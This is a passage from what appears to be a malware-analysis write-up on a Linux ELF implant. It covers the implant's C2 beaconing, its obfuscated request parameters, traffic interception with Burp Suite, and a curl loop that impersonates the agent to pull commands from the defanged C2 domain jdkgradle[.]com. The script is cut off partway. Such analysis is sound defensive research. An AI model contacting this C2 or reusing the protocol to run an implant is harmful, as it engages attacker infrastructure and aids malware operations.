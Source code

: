 To date, we have only observed the command `0x892`, which translates to the `Ping1` command and the `2202` client
response, or `0x89a`, which translates to the 'Success' response.

After running this and waiting for for the C2 to beacon again, we had another look at the code for `AcceptRequest()`
function and found it waited 4 hours each time. This prompted us to patch this particular branch and multiply the sleep
time by `0` instead of `60` (`0x3c`), which made it much easier for us to monitor the agent in real time.

### C2 Protocol Analysis

To analyze the network traffic, which was encrypted over SSL, we set up Burp Suite as a proxy to capture the underlying
HTTP requests from the agent. The Burp Suite setup was simple, as we only had the free version, and we only changed the
target to `jdkgradle[.]com`, so we could capture server responses. To forward requests through the Burp Suite proxy, the
`https_proxy` environment variable was used. Since the backend was `cURL`, we knew it would check for proxy environment
variables before sending each request and send it via the proxy. By default, it didn't seem to check the authenticity of
the server certificate either, which allowed us to MITM with ease.

![Screenshot of Burp Suite monitoring requests with the C2](/images/elf64-blog/fig-14-burp-request-monitoring.png)

After watching the traffic for some time, we gathered a general overview of the C2 protocol:

```plaintext
# Initial connection
Agent -> C2: lkjyhnmiop=<ID>&odldjshrn=odlsjdfhw&ikdiwoep=<something?> (hello im alive)
C2 -> Agent: OK (success)

Agent -> C2: lkjyhnmiop=<ID>&odldjshrn=dsaewqfewf (give me commands)
C2 -> Agent: <base64 encoded command>
Agent -> C2: lkjyhnmiop=1059787080&odldjshrn=content&ikdiwoep=<base64 encoded command response>
```

During the testing, we could see the debug output as the network requests happened, and we were able to associate certain
activity with the network requests.

![Screenshot of Burp Suite monitoring requests with the C2 juxtaposed with hex view of response](/images/elf64-blog/fig-15-request-response.png)

This is why setting the target was important, as capturing server responses would be crucial, and it would allow us to
arbitrarily decode payloads received from the C2 through other means, such as using `cURL` to simulate the client. With
this script, we can simulate a fake client to pull commands from the C2. This allows us to log commands, including their
payloads, to a text file for later review.

```bash
rm -f /tmp/log.txt
while [ 1 ]; do
  curl --silent -k hxxps://jdkgradle[.]com/jdk/update/check \
    -A "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5786.212 Safari/537.36" \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -H "Accept: image/gif, image/x-bitmap, image/jpeg, image/pjepg, application/x-shockwave-flash, */*" \
    -d 'lkjyhnmiop=689321559&odldjshrn=odlsjdfhw&ikdiwoep=dUxxZhprM15UCmB%2B'

  RESP=$(
    curl --silent -k hxxps://jdkgradle[.]com/jdk/update/check \
```